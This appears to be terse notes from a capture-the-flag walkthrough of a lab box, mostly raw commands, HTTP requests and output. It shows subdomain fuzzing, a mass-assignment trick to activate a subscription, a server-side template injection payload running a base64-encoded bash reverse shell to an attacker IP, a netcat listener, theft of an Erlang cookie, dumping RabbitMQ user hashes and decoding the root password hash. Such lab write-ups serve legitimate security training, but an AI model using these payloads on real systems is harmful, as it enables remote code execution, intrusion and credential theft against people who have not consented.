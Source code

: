 # Nmap 7.94SVN scan initiated Fri Mar  7 07:05:48 2025 as: nmap -sC -sV -sT -T4 -p- -oN box 10.10.156.99
Nmap scan report for 10.10.156.99
Host is up (0.037s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3f:da:55:0b:b3:a9:3b:09:5f:b1:db:53:5e:0b:ef:e2 (ECDSA)
|_  256 b7:d3:2e:a7:08:91:66:6b:30:d2:0c:f7:90:cf:9a:f4 (ED25519)
80/tcp    open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://cloudsite.thm/
|_http-server-header: Apache/2.4.52 (Ubuntu)
4369/tcp  open  epmd    Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 25672
25672/tcp open  unknown
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  7 07:08:29 2025 -- 1 IP address (1 host up) scanned in 160.33 seconds

Add cloudsite.thm to /etc/hosts

ffuf -u http://cloudsite.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.cloudsite.thm" | grep 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cloudsite.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cloudsite.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

storage                 [Status: 200, Size: 9039, Words: 3183, Lines: 263, Duration: 34ms]


Add storage.cloudsite.thm to /etc/hosts

Create account and login

error but there is a jwt token in cookies
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InNpZEB0aG0uY29tIiwic3Vic2NyaXB0aW9uIjoiaW5hY3RpdmUiLCJpYXQiOjE3NDEzMjc5MzgsImV4cCI6MTc0MTMzMTUzOH0.hIh-xXFtZ5V3j9adLHau9NiZmwWECgJJMP28TN0kxac

jwt.io

{
  "email": "sid@thm.com",
  "subscription": "inactive",
....
}

create new account and use burpsuite to add "subscription": "active"

POST /api/register HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://storage.cloudsite.thm/register.html
Content-Type: application/json
Content-Length: 42
Origin: http://storage.cloudsite.thm
DNT: 1
Connection: keep-alive

{"email":"sid2@thm.com","password":"test", "subscription":"active"
}

POST /api/fetch_messeges_from_chatbot HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InNpZDJAdGhtLmNvbSIsInN1YnNjcmlwdGlvbiI6ImFjdGl2ZSIsImlhdCI6MTc0MTMyODM3MywiZXhwIjoxNzQxMzMxOTczfQ.Q4y9qA0_SE622GXynYDhaWTa8BtI8L0ePkPZw_M6yZo
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 169

{
	"username": "{{request.application.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuMC4xNDYvMTA2NjYgMD4mMQ==|base64 -d|bash').read()}}"
}

nc -lnvp 10666

reverse shell

python3 -c "import pty; pty.spawn('/bin/bash')"
stty raw -echo ; fg

azrael@forge:/var/lib/rabbitmq$ ls -a
.  ..  config  .erlang.cookie  erl_crash.dump  mnesia  nc  schema
azrael@forge:/var/lib/rabbitmq$ cat .erlang.cookie 
G1Ub8H9zkeliT37t

sudo rabbitmqctl --erlang-cookie 'G1Ub8H9zkeliT37t' --node rabbit@forge list_users
Listing users ...
user    tags
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256. []
root    [administrator]

sudo rabbitmqctl --erlang-cookie 'G1Ub8H9zkeliT37t' --node rabbit@forge export_definitions /tmp/definitions.json
Exporting definitions in JSON to a file at "/tmp/definitions.json" ...

cat /tmp/definitions.json 
{
    "bindings":[],"exchanges":[],"global_parameters":[{"name":"cluster_name","value":"rabbit@forge"}],"parameters":[],"permissions":[{"configure":".*","read":".*","user":"root","vhost":"/","write":".*"}],"policies":[],"queues":[{"arguments":{},"auto_delete":false,"durable":true,"name":"tasks","type":"classic","vhost":"/"}],"rabbit_version":"3.9.13","rabbitmq_version":"3.9.13","topic_permissions":[{"exchange":"","read":".*","user":"root","vhost":"/","write":".*"}],"users":[{"hashing_algorithm":"rabbit_password_hashing_sha256","limits":{},"name":"The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.","password_hash":"vyf4qvKLpShONYgEiNc6xT/5rLq+23A2RuuhEZ8N10kyN34K","tags":[]},{"hashing_algorithm":"rabbit_password_hashing_sha256","limits":{},"name":"root","password_hash":"49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF","tags":["administrator"]}],"vhosts":[{"limits":[],"metadata":{"description":"Default virtual host","tags":[]},"name":"/"}]
}   

root hash is 49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF

import hashlib
import binascii

user_hash = '49e6hSldHRaiYX329+ZjBSf/Lx67XEOz9uxhSBHtGU+YBzWF''
# Convert the base64 encoded hash to binary
password_hash = binascii.a2b_base64(user_hash)
# Convert the binary hash to a hexadecimal string
decoded_hash = password_hash.hex()
# Split the decoded hash into two parts
part1 = decoded_hash[:8]
part2 = decoded_hash[8:]

# Print only the part2
print(part2)

python3 decode_root.py

password is:
295d1d16a2617df6f7e6630527ff2f1ebb5c43b3f6ec614811ed194f98073585

